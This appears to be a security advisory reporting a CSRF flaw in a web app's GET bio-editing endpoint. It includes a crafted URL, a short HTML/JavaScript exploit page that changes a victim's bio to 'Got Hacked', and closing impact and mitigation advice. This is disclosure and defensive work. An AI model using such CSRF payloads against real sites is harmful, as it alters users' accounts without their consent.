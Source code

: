 #### PoC: 

I identified a Cross-Site Request Forgery (CSRF) vulnerability in the GET endpoint /users/settings/edit_bio, which allowed unauthorized updates to a user’s bio 	without proper verification of the request origin or the implementation of CSRF protection mechanisms.

To demonstrate the issue, I crafted a malicious URL.

```http://localhost:4000/users/settings/edit_bio?user%5Bbio%5D=Got+Hacked```

When this URL was accessed by victim@gmail.com, a GET request was automatically sent by the browser to the server, resulting in the bio being changed to "Got Hacked". 

![csrf_burp](https://github.com/user-attachments/assets/fe0d0376-acab-44de-a96f-51c55f8a4679)

![bio_change_burp](https://github.com/user-attachments/assets/c2be8e94-1b34-4ca0-9b5b-9918c8ce8985)

To showcase the exploit, I crafted an HTML page with embedded JavaScript to redirect the victim’s browser to the malicious URL. I hosted this exploit, and after accessing it, the bio of the victim user was successfully changed to "Got Hacked".

![Edit_bio](https://github.com/user-attachments/assets/239da47a-a58e-423d-9a5e-e09a320c2dc7)

![8_CSRF_Reuse](https://github.com/user-attachments/assets/e91236e2-9807-4a7d-933f-674326ebf971)

#### Exploit:         : 
```
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit</title>
</head>
<body>
    <h1>You are being redirected...</h1>
    <script>
        window.location.href = "http://localhost:4000/users/settings/edit_bio?user%5Bbio%5D=Got+Hacked";
    </script>
</body>
</html>
```
#### Impact: 

The impact of this vulnerability is significant, as it allows unauthorized state changes in user accounts and highlights the absence of essential security measures, such as CSRF tokens and origin validation. Proper mitigation techniques like implementing CSRF tokens, restricting state-changing operations to POST requests, and using SameSite cookies would prevent such attacks and enhance the application's security posture.

In a successful CSRF attack, the attacker can modify the victim's profile information (e.g., bio, email, or other settings), potentially escalate the attack to perform more harmful actions if other sensitive endpoints are similarly vulnerable and damage the reputation of the application by defacing user profiles or spreading malicious content.

#### Mitigation: 

To mitigate this vulnerability, the following steps should be taken:

Restrict Sensitive Actions to POST Requests:
Ensure that actions that modify data (e.g., updating user profiles) are only accessible via POST requests. GET requests should only be used for idempotent operations (e.g., retrieving data).
				
Implement Anti-CSRF Tokens:
Generate a unique anti-CSRF token for each user session and include it in forms or requests that modify data. Validate the token on the server side for every request.
				
```
